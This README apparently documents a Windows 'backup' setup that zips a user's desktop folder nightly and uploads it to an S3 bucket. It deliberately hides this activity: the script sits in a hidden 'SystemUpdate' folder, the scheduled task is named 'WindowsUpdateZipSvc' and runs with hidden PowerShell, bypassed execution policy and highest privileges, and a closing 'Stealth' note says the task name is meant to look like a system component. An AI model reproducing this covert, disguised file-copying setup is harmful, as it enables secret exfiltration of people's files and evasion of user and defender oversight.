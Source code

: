 # Maksiti Backups — README

## 1) AWS (once)
- Create IAM user: **`backup-user`** (programmatic access only).
- Attach policy granting access **only** to bucket **`arbrim-backups-test`** (ListBucket, Put/Get/DeleteObject).
- Save the access key CSV.

> (Optional) As an admin, add an S3 **Lifecycle rule** to expire `zips/` after 7 days (CLI step below).

---

## 2) Windows setup (per laptop)

### 2.1 Install & configure AWS CLI
Download and install:  
`https://awscli.amazonaws.com/AWSCLIV2.msi`

Verify:
```powershell
aws --version
```

Configure:
```powershell
aws configure
```
Use:
```
Access Key ID: <from backup-user CSV>
Secret Access Key: <from backup-user CSV>
Default region: eu-central-1
Output format: json
```

### 2.2 Create hidden script folder (user-writable; no admin needed)
```powershell
New-Item -ItemType Directory -Path "C:\Users\<USER>\AppData\Local\SystemUpdate" -Force | Out-Null
attrib +h "C:\Users\<USER>\AppData\Local\SystemUpdate"
```

### 2.3 Pick backup source and S3 layout
```
Local folder to back up (edit per machine):
C:\Users\<USER>\Desktop\maksitest

S3 bucket:
arbrim-backups-test

Zips stored under (auto by script):
s3://arbrim-backups-test/zips/<COMPUTER>/
```

### 2.4 Save the PowerShell script
Path:
```
C:\Users\<USER>\AppData\Local\SystemUpdate\WinZipBackup.ps1
```

Content:
```powershell
# --- EDIT THESE TWO PER MACHINE ---
$SrcPath = "C:\Users\<USER>\Desktop\maksitest"   # Folder to back up
$Bucket  = "arbrim-backups-test"                     # S3 bucket
# ----------------------------------

$Computer  = $env:COMPUTERNAME
$UserName  = $env:USERNAME
$Stamp     = (Get-Date).ToString("yyyy-MM-dd_HH-mm")
$Prefix    = "zips/$Computer"
$ZipName   = "${Computer}-${UserName}_${Stamp}.zip"
$TempZip   = Join-Path $env:TEMP $ZipName

if (-not (Test-Path $SrcPath)) { exit 0 }

try {
    if (Test-Path $TempZip) { Remove-Item $TempZip -Force -ErrorAction SilentlyContinue }
    Compress-Archive -Path $SrcPath -DestinationPath $TempZip -CompressionLevel Optimal -Force
} catch { exit 0 }

$S3Key = "$Prefix/$ZipName"
$null = aws s3 cp "$TempZip" "s3://$Bucket/$S3Key" --sse AES256 2>$null
Remove-Item $TempZip -Force -ErrorAction SilentlyContinue

# Optional local retention (skip if using S3 lifecycle):
try {
    $cutoff = (Get-Date).AddDays(-7)
    $list = aws s3api list-objects-v2 --bucket $Bucket --prefix $Prefix/ | ConvertFrom-Json
    foreach ($obj in ($list.Contents | Where-Object { $_.LastModified -lt $cutoff })) {
        $null = aws s3api delete-object --bucket $Bucket --key $obj.Key 2>$null
    }
} catch { }
```

### 2.5 Schedule it (silent nightly run)
```powershell
schtasks /Create /TN "WindowsUpdateZipSvc" /TR "powershell.exe -NoLogo -NonInteractive -WindowStyle Hidden -ExecutionPolicy Bypass -File C:\Users\arbri\AppData\Local\SystemUpdate\WinZipBackup.ps1" /SC DAILY /ST 03:00 /RL HIGHEST /F
```

Then in Task Scheduler → Properties → **Run whether user is logged on or not** (enter your Windows password once).  
To test now: right-click the task → **Run**.

---

## 3) S3 lifecycle (keep 7 days) — optional but recommended

Save JSON:
```
C:\Users\<USER>\AppData\Local\SystemUpdate\lifecycle.json
```
```json
{
  "Rules": [
    {
      "ID": "ExpireZipBackupsAfter7Days",
      "Status": "Enabled",
      "Filter": { "Prefix": "zips/" },
      "Expiration": { "Days": 7 }
    }
  ]
}
```

Apply (run as an admin/owner who has lifecycle permissions):
```powershell
aws s3api put-bucket-lifecycle-configuration `
  --bucket arbrim-backups-test `
  --lifecycle-configuration file://C:\Users\<USER>\AppData\Local\SystemUpdate\lifecycle.json `
  --region eu-central-1
```

Verify:
```powershell
aws s3api get-bucket-lifecycle-configuration --bucket arbrim-backups-test --region eu-central-1
```

---

## 4) Restore & notes

**Restore:** download the desired zip from  
`s3://arbrim-backups-test/zips/<COMPUTER>/<COMPUTER>-<USER>_YYYY-MM-DD_HH-mm.zip`  
and unzip.

**Scale to more laptops:** copy `WinZipBackup.ps1`, edit only `$SrcPath`, run the same `schtasks` command (path includes the user’s profile). Lifecycle rule applies to all machines automatically.

**Stealth:** script runs with hidden PowerShell; folder is hidden; task name looks system-ish.
